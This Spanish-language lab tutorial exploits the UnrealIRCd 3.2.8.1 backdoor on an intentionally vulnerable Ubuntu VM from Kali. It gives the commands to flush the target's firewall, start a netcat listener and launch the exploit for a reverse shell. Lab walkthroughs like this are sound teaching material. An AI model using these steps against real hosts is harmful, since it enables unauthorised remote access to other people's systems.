

Descarga una máquina kali y esta máquina exploitable Ubuntu
descomprímela 1 vez, descomprímela de nuevo e instálala, el usuario es vagrant y la contraseña también vagrant, tenemos que desactivar las iptables, por lo que usad sudo iptables -S para ver las iptables, luego haz un sudo iptables -F para eliminarlas
Comprueba la ip de la máquina linux con ip a
Con esto ya está terminado el setup
Pongamos a prueba lo recopilado y obtenido hasta ahora
Habíamos encontrado en la sección anterior un fallo de seguridad grave, concretamente UnrealIRCd-3.2.8.1-Backdoor, intentemos explotarlo.
descarguemos el exploit en la máquina Kali: Aquí
Lo movemos a una carpeta en el escritorio y lo unzippeamos con unzip UnrealIRCd-3.2.8.1-Backdoor-master
Tendremos un archivo exploit.py y otro README.md, y abrimos el exploit.py con un editor de texto, en mi caso usaré emacs pero podéis usar pico, nano o cualquiera, este exploit es un reverse connection
Cambiamos la IP y el puerto al que queramos que conecte con nosotros, usaremos netcat para escuchar en el puerto que hemos especificado en el exploit con: nc -l -p 4433 y comprobar si funciona el exploit
Una vez esté todo preparado, con el listener activado con netcat ejecutamos el payload con ./exploit.py 192.168.x.x x -payload python el número después de la IP correspondería al puerto, en este caso, sería: ./exploit.py 192.168.74.131 6667 -payload python.
Como podemos ver en la terminal de la izquierda hemos enviado el payload successfully, si no hay problemas y todo ha salido bien, en la terminal de la derecha, debería salirnos: boba_fett@ubuntu:/opt/unrealircd/Unreal3.2$, como se observa en la máquina.
Ya habríamos tomado acceso remoto a la otra máquina, probemoslo: usemos ls en la consola de la derecha (la de netcat)
Prueba ir a la máquina Ubuntu y crea un archivo, entonces léela en tu máquina Kali
Máquina Ubuntu:
Máquina Kali:
Probemos crear un archivo con echo desde la máquina Ubuntu y leámoslo